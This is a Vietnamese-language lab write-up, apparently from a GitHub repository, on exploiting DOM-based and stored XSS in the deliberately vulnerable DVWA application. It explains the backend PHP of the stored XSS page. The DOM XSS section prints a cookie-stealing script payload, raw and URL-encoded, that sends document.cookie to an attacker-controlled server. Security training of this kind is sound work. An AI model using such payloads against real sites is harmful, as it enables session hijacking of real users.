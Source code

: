 # XSS DOM
## Client / Server side
## Pwned Time
![image](https://github.com/user-attachments/assets/2b6ebd0c-6c76-4903-9305-b13b16b73757)
*Mình sẽ khai thác XSS trực tiếp trên client-side khác với XSS reflected khai thác qua server-side*

![image](https://github.com/user-attachments/assets/b5823528-483f-4285-a890-82c4ebb2de35)
*Thử nhập 1 lệnh alert*
--> Kết quả:
![image](https://github.com/user-attachments/assets/752634e3-7aba-43c7-945d-07c6b05c5136)

Pwn time:
1. Tạo 1 local server qua python (port 8000)
![image](https://github.com/user-attachments/assets/6a79af35-58fe-4de8-b9d7-77fb0ad444a4)

2. Tạo payload độc, lừa user nhập vào
Payload gốc:
```
127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English<script>window.location='http://127.0.0.1:8000/?cookie=' + document.cookie</script>
```
![image](https://github.com/user-attachments/assets/ee01b5a4-71a4-48cf-b0db-9b04016eaefc)
*Nó sẽ ra 1 trang ntn*

Encode payload:
```
http://127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English%3Cscript%3Ewindow.location%3D%27http%3A%2F%2F127.0.0.1%3A8000%2F%3Fcookie%3Ddocument.cookie%3C%2Fscript%3E
```
3. Kết quả
Session id của người dùng hiện trong cửa sổ server của attacker
 ![image](https://github.com/user-attachments/assets/71026905-c57d-471c-81db-891455ac4e22)

# XSS Stored
## Image
![image](https://github.com/user-attachments/assets/c082869d-0917-47e3-8969-bf88766aff00)

## Code backend
```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```
*Bảo vệ phần message và name khỏi sql injections. Sau đó thêm vào bảng sql 2 elements message và name*

> $_POST

Tương tự như $_GET, là 1 super global variable, nó sẽ collect những data được gửi đi bởi HTTP POST method <br>
Những data này có thể collect từ form fields: input, checkbox, radio, buttons,...
> trim()

Xóa đi những khoảng trống ở phần đầu.
> stripslashes()

Xóa đi back_slash (\) from a string. Ở trong những bản cũ của php, nó sẽ tự động thêm back slash vào những special character: ', " <br>
Việc của mik cần là xóa những cái đó đi để clean string.

> $_GLOBALS

include POST and GET
> isset(var)

1 Biến để check xem var đc tạo chưa? Not null -> true. Null -> false

## Pwn
![image](https://github.com/user-attachments/assets/3d4f5a68-756a-42f5-a3e9-d4191d4d92c1)
*Chỉnh max size = 250 và nhập malicious code*

-->kết quả:
![image](https://github.com/user-attachments/assets/4af0f7d5-9d17-4c01-94de-058e499fab6d)
*Mỗi lần load lại nó sẽ tự động ra cái trang này*



